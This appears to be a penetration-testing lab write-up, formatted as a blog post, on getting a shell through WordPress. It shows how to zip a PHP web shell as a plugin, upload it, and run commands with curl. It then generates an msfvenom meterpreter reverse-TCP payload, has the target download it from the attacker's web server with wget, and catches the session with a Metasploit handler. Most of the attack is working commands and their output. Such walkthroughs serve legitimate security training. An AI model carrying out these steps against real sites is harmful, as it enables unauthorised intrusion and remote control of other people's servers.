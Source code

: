 ```yaml
---
description: >-
  Wordpress Loading Plugin Shell
title:  Wordpress Loading Plugin Shell             # Add title here
date: 2022-12-10 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Wordpress Loading Plugin Shell]                     # Change Templates to Writeup
tags: [exploitation, wordpress, plugin shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Obtaining a Shell

To obtain a shell, we first must package the plugin in a way that WordPress knows how to handle. WordPress expects plugins to be in a zip file. When WordPress receives the zip file, it will extract it into the wp-content/plugins directory on the server. WordPress places the contents of the zip file into a folder that matches the name of the zip file itself. Because of this, we will need to make note of the name of the file in order to be able to access our PHP shell later on.

```bash
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress

kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php 
  adding: plugin-shell.php (deflated 58%)
```

The generated zip file is named plugin-shell.zip and will be placed in the plugin-shell folder within wp-content/plugins on the server.

Now that the plugin package is generated, it's time to upload the shell. First, we need to visit the Plugins page by clicking the _Plugins_ link on the left sidebar.

![Description](/assets/img/Pasted image 20221210223118.png)

Next, we install the plugin by clicking _Add New_ at the top left. This will take us to the "Add Plugins" page.

![Description](/assets/img/Pasted image 20221210223158.png)

Since we are not downloading a plugin from the WordPress plugin directory, we need to select _Upload Plugin_ at the top left of the page.

![Description](/assets/img/Pasted image 20221210223247.png)

This will open up a section where we can select our plugin package. We need to select _Browse_, which will open up a file dialog for us to find the created package.

![Description](/assets/img/Pasted image 20221210223323.png)

With the file dialog open, we navigate to the directory containing our plugin, select the plugin-shell.zip file, and click _Open_ at the bottom of the file dialog.

Finally, to install the plugin, we click _Install Now_.

![Description](/assets/img/Pasted image 20221210223355.png)

Installing the plugin will upload the zip and extract the contents.

Now that the plugin is installed, we can attempt to use it to run system commands on the WordPress target. For this, we can simply use _cURL_. As discussed earlier, the directory for the plugin is wp-content/plugins/, the zip will be extracted into a directory named plugin-shell, and the file that we are targeting is named plugin-shell.php.

Remember that we must also set a _cmd_ parameter containing the command we are attempting to execute on the target system. Let's attempt to run whoami and see if the shell worked.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

It worked! We are running commands as the www-data user. Now it's time to upload a meterpreter payload and obtain a full reverse shell.

First let's generate a meterpreter payload with the msfvenom utility.

```bash
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

We are selecting the Linux reverse TCP meterpreter payload since we know that the target is running on Ubuntu from our previous enumeration efforts. The LHOST option will point to our Kali IP address and we are selecting an LPORT of 443 in an attempt to evade any outbound firewall rules. While it's good practice to always check for any egress filtering, in this case we will make the assumption that port 443 is unrestricted. We are generating the payload as an _elf_ file and redirecting the output to a file named shell.elf in the kali user home directory.

With the meterpreter reverse shell generated, we start a web server to allow the target to download the shell.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```

The webserver is using the Python _http.server_ module, is instructed to use port 80, and is serving files from the kali user home directory. We chose port 80 again to avoid any potential issues we might run into if there is a firewall blocking arbitrary outbound ports.

With the shell generated and the web server running, we will instruct the target to download the shell. We will use wget from the target to download the shell from our Kali system. However, we must encode any space characters with "%20" since we cannot use spaces in URLs. The command we are running is shown below.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
```

If the command worked, we should see an entry similar to the following in our Python webserver's log.

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

Success! Next we need to make the shell executable, start a Metasploit payload handler on Kali, and run the _elf_ file on the target to acquire a meterpreter shell. To make the shell executable, we will run chmod +x on it. Once again, we need to remember to urlencode sensitive characters such as space (%20) and "+" (%2b). The command to make the shell executable is displayed in Listing 31.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
```

At this point, the shell should be executable. Next, we will start a meterpreter payload listener on the appropriate interface and port.

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
>              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
>              set LHOST 10.11.0.4;\
>              set LPORT 443;\
>              run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443 
```

In the msfconsole command above, we are having Metasploit start quietly (-q) and immediately configure the payload handler via the -x option, passing the same payload settings we used when generating the shell.

With our listener running, it's finally time to obtain a reverse shell. This can be done by executing the shell.elf file via the malicious WordPress plugin we installed previously.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
```

Returning to our listener, we should see that we have captured a shell.

```bash
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41

meterpreter > shell
Process 9629 created.
Channel 1 created.

whoami
www-data

exit
meterpreter > 
```
